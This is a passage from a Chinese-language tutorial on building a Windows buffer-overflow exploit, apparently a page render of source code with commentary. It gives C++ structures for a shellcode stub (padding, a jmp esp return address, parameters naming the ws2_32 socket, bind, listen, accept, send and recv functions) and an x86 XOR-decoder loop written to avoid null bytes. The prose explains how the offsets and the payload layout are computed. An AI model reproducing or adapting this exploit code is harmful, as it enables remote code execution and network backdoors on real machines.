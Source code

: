 ```cpp
    FxVirtualAlloc fnVirtualAlloc;
    DWORD dwImageSize;
    DWORD rvaAttackerEntry;
    char szWs2_32[11];        //ws2_32.dll
    char szSocket[7];        //socket
    char szBind[5];            //bind
    char szListen[7];        //listen
    char szAccept[7];        //accept
    char szSend[5];            //send
    char szRecv[5];            //recv
};

struct STUB
{
    BYTE arrPadding1[18];
    DWORD dwJmpEsp;
    BYTE arrPadding2[4];
    STUBSTUBCODE ssc;
    STUBPARAM sp;
    BYTE arrStubCode[1];    //实际上，这是一个变长数组
};

#pragma pack(pop)
```

STUBSTUBCODE对应的就是本文开头提到的11条汇编语句。参照stub的整体结构，我们不难写出它的具体实现。

```asm
xor ecx, ecx
       mov cx, wXorSize;            wXorSize是要进行异或处理的数据的大小
       lea esi, [esp+ byXorOffset];        byXorOffset是需要进行异或处理的代码的起始位置
       push esi
xormask:    mov al, [esi]
       xor al, byXorMask;            使用byXorMask进行异或
       mov [esi], al
       inc esi
       loop xormask
       lea eax, [esp + byEntryOffset];     byEntryOffset 是StubCode的入口地址
       call eax
```

其中的几个变量实际上要用常数替代，wXorSize是要进行异或处理的数据的大小，也就是stubparam和stubcode的大小的和；byXorOffset是这些数据的起始位置相对于esp寄存器的偏移，从结构图中可以看出它等于“sizeof(STUBSTUBCODE)”，同时，它加上esp后就是STUBPARAM的地址，我们要把这个地址传给stubcode，所以立即把它压进了栈中，具体请见下面的相关内容；byXorMask是异或掩码，也就是前面提到的数字n；byEntryOffset是stubcode的入口相对于esp寄存器的偏移，它等于“sizeof(STUBSTUBCODE)+ sizeof(STUBPARAM)+4”，多加一个4是因为前面又向栈里压了一个数。这段代码的前两句没用更直接的“mov ecx, wXorSize”则是为了避免出现0字符。

把代码和结构体对比一下，看明白了吧!结构体中的几个数组对应的是汇编代码中固定不变的部分，变量则是需要经常修改的部分。这种定义让我们有机会动态修改stubstubcode，减少手工的代码维护工作。

STUBPARAM定义的是要传递给stubcode的参数，它比较简单，相信你看完后面对stubcode的介绍，就能明白各成员的含义和作用了。其中所有以“Fx”为前缀的数据类型都是其相应函数的指针类型，后文还会遇到。

在STUB中，我给了第一个填充数组18字节的空间，多出来的两字节用来存储UNC字符串中打头的“//”，本例中这并不是必须的。而arrStubCode虽然看上去只有一字节长，却是一个变长数组，保存的是结构图中的stubcode和填充数据3。
